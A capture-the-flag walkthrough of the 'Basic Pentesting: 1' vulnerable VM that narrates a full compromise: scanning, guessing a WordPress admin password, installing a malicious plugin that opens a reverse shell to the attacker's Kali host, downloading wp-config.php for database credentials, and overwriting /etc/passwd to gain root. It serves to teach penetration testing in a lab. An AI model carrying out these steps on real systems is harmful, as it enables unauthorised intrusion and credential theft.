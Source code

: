 # CTF-Walkthrough
This repository contains a list of CTFs/vulnerable virtual machines which I have attempted to pick up CTF skills.

# Basic Pentesting: 1
By Josiah Pierce  

* After the VM has been booted up, we are greeted with a login page that request for the password of user marlinspike.
* The IP address of the VM can be found by clicking the icon with 2 arrows pointing up and down respectively on the top right-hand corner of the VM. No nmap scans are thus needed.
* The IPv4 address of the VM is 192.168.110.135.
* From our Kali VM, execute `nmap -sS 192.168.110.135`.
* There are 3 ports that are open: 21 (ftp), 22 (ssh) and 80 (http). These results are loaded instantly after the command is executed - scan result was previously cached(?).
* We visit 192.168.110.135 and find a web server running. The page says that "It works!".
* Note: Viewing the page source reveals no additional information.
* Note: /admin, /login.php, /robots.txt are invalid pages as well.
* Though the page also said that "no content has been added yet", we cannot necessarily trust it. Thus, run `dirbuster`, which tries to find hidden files and directories using a user-supplied wordlist.
* Put 192.168.110.135 into the `Target URL` of dirbuster. We will use a wordlist that is provided by dirbuster, which can be found in /usr/share/dirbuster/wordlists. We will use `directory-list-lowercase-2.3-small.txt` for a start. We will also use `30 threads`.
* While waiting for dirbuster to do its job, we will look at other areas, such as verifying that it is indeed the ssh service which is running at port 22. Since there is a response that requests for the password, we can confirm that it is indeed the case.
* Heading back to dirbuster, we find that there is a directory called `secret` that contains `wp-content`, `wp-includes`, etc.
* With 192.168.110.135/secret, we expect a WordPress page to load, which happens (page is titled "My secret blog"). Note: the page loads rather slowly - why(?), and the page contents are not loaded properly, i.e. positioning of the texts, icons are off, as if there is no CSS.
* Placing our mouse over some of the links, we find that the hyperlink domain is actually `vtcsec`.
* Next, open our Hosts file in Kali: `sudo nano /etc/hosts`, add in 2 entries: `192.168.110.135 vtcsec` and `192.168.110.135 vtcsec.com`, and finally save the file. What this means is that the IP address of vtcsec is determined by us to be 192.168.110.135, and any machine accesses vtcsec will actually access 192.168.110.135 instead.
* Note: The vtcsec.com mapping is just in case there might be a case where there is a `.com` domain extension for one of the hyperlinks, though we have yet to see one so far.
* Go back to 192.168.110.135/secret and refresh the page - volia, we see that the page has been properly loaded. This is because that the CSS was trying to pull from a domain that did not exist until we added the entries to the Hosts file.
* There are no interesting content from the post that exists, so we head to the Login page of the WordPress site. We attempt to enter using the username `admin` and a random password. The reason that a random password is used is to verify that an account with the username admin actually *exists*, as we see from the error message that appears from an invalid login, that "the password you entered for the username admin is incorrect". This is a form of information leakage in my opinion.
* We attempt using the password `admin` for the admin account with a quick guess, and access is granted. No kind of bruteforcing is required at this step.
* Head to the Plugins page and install `malicious-wordpress-plugin` by `wetw0rk` (GitHub). Once installed on WordPress, a reverse shell is granted.
* Before beginning the installation of the plugin, we will first start up our listener by opening the Git repository from our terminal, and execute `python wordpwn.py 192.168.110.132 4000 Y`. The IP address in the parameter is that of the Kali machine.
* The payload is then generated in a .zip file. Once the reverse TCP handler (listener) is started on the Kali terminal, we can upload the payload as a plugin (GotEm) to the WordPress site, and activate it.
* We will next head to the plugins editor, select the GotEm plugin to find out the path to the files which are within the plugin, which are `malicious/QwertyRocks.php` and `malicious/wetw0rk_maybe.php`. There are only commented codes in the former, and in the latter, we find that there is a whole long string within a base64_decode and eval functions.
* Next, we head to `vtcsec/secret/wp-contet/plugins/malicious/wetw0rk_maybe.php`.
* Heading back to our Kali terminal, we see that a session has been opened, and enter `shell`. Executing `whoami`, we see that we are www-data. We have now successfully logged into the victim VM.
* From the reverse shell which we have gotten, we can go up a few levels of directory to the one that contains a number of `wp-` PHP files, and specifically we want to download the wp-config.php to the root folder (i.e. back to our Kali machine): `download wp-config.php /root`.
* Open up the config file from our Kali machine with a text editor, and we find that we have the MySQL database username `root` and the password `arootmysqlpass`. We can probably do a **privilege escalation** from here after logging in to the database, but this is not the focus here at this moment.
* Next, we will use `unix-privesc-check` from `pentestmonkey` (GitHub) on the victim VM. This tool is a "shell script to check for simple privilege escalation vectors on Unix systems".
* From our reverse shell, cd to `/var/www/html`, which hosts the secret page. We will now upload the tool to the victim VM: `upload /root/unix-privesc-check`.
* Give executable permissions to the script via chmod, and then `./unix-privesc-check standard > output.txt`. Wait for awhile for our results to be redirected to the output text file. Next, download output.txt to /root.
* Search for the string "WARNING" output.txt and we see that one of the findings is that `/etc/passwd` can be written by anyone. Download the /etc/passwd file to /root.
* We see that the password of root is `x`, which means that it has been encrypted. However, we can overwrite .
* Run openssl passwd -1, and enter a simple password such as `pass`. A string (i.e. password hash) will be generated as the output. Copy and paste this hash over the `x`, save the file, and upload the file back to the victim VM.
* Execute `su root -l`, but we find that there is an error stating that su must be run from a terminal. Execute `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn a proper shell.
* Enter the password as our defined password `pass`, and we have got root access!
